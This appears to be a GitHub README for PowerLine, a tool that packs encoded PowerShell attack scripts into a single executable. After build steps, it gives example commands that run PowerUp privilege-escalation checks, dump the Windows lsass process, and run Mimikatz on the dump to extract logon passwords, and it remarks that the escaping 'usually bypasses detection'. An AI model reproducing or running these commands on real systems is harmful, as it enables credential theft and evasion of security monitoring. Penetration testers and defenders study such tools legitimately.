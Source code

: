 # PowerLine
 (clone from https://github.com/fullmetalcache/PowerLine with localFile)
Download the Repo

Run the build.bat file

Update the UserConf.xml document to contain the URLs of the scripts that you'd like to include (examples shown)

Run the PLBuilder.exe file

The PowerLine.exe program should now be created and contains embedded, xor-encoded, base64-encoded versions of all of the scripts that you specified

Example Usage:

//Shows scripts that are currently embedded in the program

    PowerLine.exe -ShowScripts

//Run Invoke-AllChecks from the PowerUp script

    PowerLine.exe PowerUp "Invoke-AllChecks"

//Get a dump of the lsass process. Must run as an admin

    PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"

//Run mimikatz against the dump file created by the Out-Minidump command to extract creds. lsass_dump_name.dmp will be the name generated by Out-Minidump

//Yes, it's hellacious escaping but it works and usually bypasses detection =)

    PowerLine.exe Invoke-Mimikatz "Invoke-Mimikatz -Command \"`\"sekurlsa::minidump lsass_dump_name.dmp`\" `\"sekurlsa::logonPasswords`\"\""
